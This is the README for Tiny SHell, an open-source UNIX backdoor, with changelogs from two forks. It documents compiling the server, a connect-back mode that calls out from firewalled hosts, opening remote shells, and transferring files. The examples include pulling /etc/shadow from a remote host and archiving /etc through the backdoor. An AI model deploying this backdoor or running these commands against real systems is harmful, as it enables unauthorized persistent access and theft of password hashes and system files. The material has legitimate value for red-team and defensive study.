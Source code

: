 ## Tiny SHell - An open-source UNIX backdoor, written by Christophe Devine

### https://github.com/mzpqnxow/tsh

This is a fork of the fork by creaktive with a focus on portability and convenience

  * Restored the portability feature of defaulting to /bin/sh (busybox, AIX, HP-UX, IRIX, many Solaris need this)
  * Added simple way to avoid using a login shell at all (via ```MINIMAL=1 ./tsh```)
  * Added a way to explicitly specify Bash if you really want to (via ```BASH=1 ./tsh```)
  * Since creaktive's default of using /bin/bash was removed in my fork, it caused Debian derived systems to break since dash doesn't handle --login, fixed using /bin/sh -l (via ```DASH=1 ./tsh```)

#### TODO
  * Add a collection of statically built (w/musl libc) executables for MIPS and ARM variants
  * Add a simple tool to hotpatch the passphrase into the binaries


### https://github.com/creaktive/tsh
  * Added iPhone buildability and a usage function
  * Redid the Makefile
  * Upgraded the ciphers
  * Maybe some other stuff?

### Original tsh version 0.6

```
                 Tiny SHell - An open-source UNIX backdoor


    Before compiling Tiny SHell

        1. First of all, you should setup your secret key, which
           is located in tsh.h; the key can be of any length (use
           at least 12 characters for better security).

        2. It is advised to change SERVER_PORT, the port on which
           the server will be listening for incoming connections.

        3. You may want to start tshd in "connect-back" mode if
           it runs on on a firewalled box; simply uncomment and
           modify CONNECT_BACK_HOST in tsh.h.

    * Compiling Tiny SHell

        Run "make <system>", where <system> can be any one of these:
        linux, freebsd, openbsd, netbsd, cygwin, sunos, irix, hpux, osf

    * How to use the server

        It can be useful to set $HOME and the file creation mask
        before starting the server:

            % umask 077; HOME=/var/tmp ./tshd

    * How to use the client

        Make sure tshd is running on the remote host. You can:

        - start a shell:

            ./tsh <hostname>

        - execute a command:

            ./tsh <hostname> "uname -a"

        - transfer files:

            ./tsh <hostname> get /etc/shadow .
            ./tsh <hostname> put vmlinuz /boot

        Note: if the server runs in connect-back mode, replace
        the remote machine hostname with "cb".

    * About multiple file transfers

        At the moment, Tiny SHell does not support scp-like multiple
        and/or recursive file transfers. You can work around this bug
        by simply making a tar archive and transferring it. Example:

        ./tsh host "stty raw; tar -cf - /etc 2>/dev/null" | tar -xvf -

    * About terminal modes

        On some brain-dead systems (actually, IRIX and HP-UX), Ctrl-C
        and other control keys do not work correctly. Fix it with:

            % stty intr "^C" erase "^H" eof "^D" susp "^Z" kill "^U"

    * About security

        Please remember that the secret key is stored in clear inside
        both tsh and tshd executables; therefore you should make sure
        that no one except you has read access to these two files.
        However, you may choose not to store the real (valid) key in
        the client, which will then ask for a password when it starts.
```

